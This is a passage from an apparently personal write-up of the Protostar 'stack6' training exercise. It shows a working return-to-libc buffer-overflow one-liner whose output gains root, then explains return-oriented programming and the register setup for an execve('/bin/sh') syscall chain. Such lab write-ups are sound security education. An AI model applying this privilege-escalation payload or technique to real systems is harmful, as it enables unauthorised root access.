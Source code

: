 And this is where things went wrong for me. Turns out, as described in [1], that gdb will setup some additional environment variables and that will impact the actual offsets of addresses on the stack when you run outside gdb. So whilst in GDB the address is `0xbffff808`, outside gdb it was `0xbffff7f8`. I found that pretty much by hand, by incrementing the pointer to my string by 10 bytes at a time - which was super tedious. Putting all of this together, we have:

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 80 + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xf8\xf7\xff\xbf" + "/usr/bin/id"'  | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`�����/usr/bin/id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Sweet! Since `/usr/bin/id` shows we are root, effectively any program we run will run as root!


## ROP

Right, time to get the big guns out. Before this challenge I had no idea how ROP worked, and it still feels like it, but now I have written one ROP-chain and I have found the many ways in which it can hurt you!

First off, what is return-oriented programing ?! In the simplest terms, it's a shell-coding technique where various x86 instructions (otherwise knows as gadgets) are stringed together (aka you jump between them) using `ret` statements to get to the next one. This is feasible because once you have found the gadges you want to use, you push their addresses on stack as part of the input and then once the first gadget executes, it returns to the topmost address on the stack, which is the address of gadget 2, and so on. In essence your stack will mostly contain addresses and very little actual shellcode. As an illustration:

```
 ________________ 
|  target buffer |
 ________________ < address of gadget 1
| return address |
 ________________ < address of gadget 2
| return address |
 ________________ < address of gadget 3
| return address |
 ________________
| other things   |
| that don't     |
| matter         |
```

================ ROP ==============

ROP ?! I think the overal strategy with this is to use ROP to get a syscall going, using sys_execve

for this we need: (https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/)
	EAX = 11 (or 0x0B in hex) – The execve syscall number
	EBX = Address in memory of the string “/bin/sh”
	ECX = Address of a pointer to the string “/bin/sh”
	EDX = null
	call instruction int 0x80 (interupt syscall)
